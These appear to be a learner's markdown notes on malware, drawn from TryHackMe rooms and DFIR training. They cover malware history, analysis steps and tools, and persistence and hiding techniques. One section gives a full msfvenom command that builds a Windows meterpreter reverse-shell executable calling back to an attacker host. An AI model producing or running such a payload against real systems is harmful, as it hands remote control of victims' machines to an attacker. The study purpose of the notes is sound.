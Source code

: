1. ###### History ([room](https://tryhackme.com/room/historyofmalware))
- malware = malicious software
- 1971 - first malware - Creeper
- 1973 - first "antivirus" - Reaper (was created to remove any copy of Creeper)
- 1974 - Wabbit - reproducing as fast as rabbits => computer would choke on their own resources; did not spread through network
- 1975 - ANIMAL - first Trojan
- 1982 - Elf Cloner - first microcomputer virus, boot sector virus, spread to US Navy
- 1986 - Computer Fraud and Abuse act

2. ###### Intro ([room](https://tryhackme.com/room/malmalintroductory))
- when analysing it's important to consider: 
	- Point of Entry
	- indicators of malware being executed on a machine
	- what does the malware do
- attacks - targeted vs. mass campain
- malware attack process breakdown:
	1. Delivery
		- USB, PDF attachment,...
	2. Execution
		- what does it do - encypting files, logs keystrokes, displays ads,...
	3. Maintaining persistence (not always the case)
	4. Propagation (not always)
- two categories of fingerprints:
	- host-based signatures - results of execution and any ppersistence performed by malware
	- network-based signatures - network communication taking place during delivery, delivery and propagation
- two types of malware analysis:
	- static 
		- gaining high level abstraction of the sample
		- PE Explorer, PeID, IDA, WinDg
	- dynamic - usualy involves executing the sample

3. ###### Analysis- 
	1. Static analysis
	- MD5 checksum
		- on Windows: [HashTab](http://implbits.com/products/hashtab/)
		- in Linux: md5checksum or md5deep
		- lookup the MD5 checksum - Virustotal,...
	- identify the compiler/packer of a file
		- PeID (W), [Detect it Easy](https://github.com/horsicq/Detect-It-Easy) (L)
		- packing is a form of obfuscation
		- in IDA - check Imports - obfuscated code has little to no Imports
	- strings ([room](https://tryhackme.com/room/malstrings))
		- text/numbers contents of a program
		- can contains credentials, Bitcoin addreses
		- SysInternalsSuite => Strings (W), strings (L)
	- imports
		- PE Explorer (W GUI), IDA
	- automated analysis with [[binwalk]]
	- more condensed summary with [[exiftool]]

1. ###### Research ([room](https://tryhackme.com/room/malresearching))
- checksums + VirusTotal
- online sandboxes - [any.run](https://any.run/), [hybrid-analysis](https://hybrid-analysis.com/)



##### Create Malicious Executable
- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<host_IP> LPORT=<destination_port> -f exe -o maliciousfile.exe`
	- `-a`: architecture
	- `--platform`: windons/linux
	- `-p`: payload
	- `-f`: file extension
	- `-o`: output file

##### DFIR Training
- 3 general concepts w/ malware:
	1. starting
		- persistent vs one time
		- triggered
			- the OS is configured to launch the malicious exe/service based on some event (system startup, user login, schedule,...)
		- trick launch
			- convince the user to run the process, eg. replace existing program w/ malware, place malware in folder such that a normal process will launch it instead of the intended exe
		- trick loading
			- tricks a process to load a malicious library
		- data injection
			- exploit process that does not check validity of its inputs
	2. hiding
		- hide itself - modify OS data structures to make it invisible from some APIs
		- parasite - pick an innocent process, take over control, start malicious threads in it and exit original process
		- hollowing - start a process for a purpose of taking it over
		- ...
	3. doing bad things
-  is there Single Artifact Category? -> No
	-  break it up:
		-  startup - Are there malicious persistence mechanisms?
		-  running - Are there malicious processes running?
		-  remnants - Are there signs that malware was run?
1. Persistence
	- how to identify if a program/process/library is malicious?
		-  Thread Inteligence: It the program's hash on a "known bad" list?
		-  Statis analysis: Does the program have byte-level signatures from previous malware? 
		-  Dynamic analysis: Does the program have malicious behaviour?
		-  Reverse Engineering: Does the program have instructions that are malicious? 
	-  triggered (malicious triggered programs)
		-  Triggered Program Artifacts Store:
			-  path to program to be launched, trigger (startup, at login,...), user/privilege (is it a service?), (a date of creation)
			-  lots of places: Registry, Startup Folder, Scheduled Tasks, WMI Actions,...
		-  how to analyze:
			-  need to analyze the program instructions - engines, sandboxes,...
			-  prioritize the files based on: the the program normally there? is the program in a suspicious location? does the trigger/program have times similar to the incident? is the program signed by a legitimate authority? is the program on other systems in the enterprise?
	-  trick launch (malicious programs that could get accidentaly launched)
		-  no Single Artifacts Store -> too many ways to trick someone/something - exes in path, exes in attachments, shortcuts
			-  -> but can be explored by previous techniques
	-  trick loading (malicious libraries that could get accidentaly loaded)
		-  Artifact category (eh not Single)
			-  LoadLibraryPathFile - contains the libraries in the load path
			-  BUT load libraries often include the same folder as the exe - its relative -> we need to consider nearly every library
2. Running
3. Remnants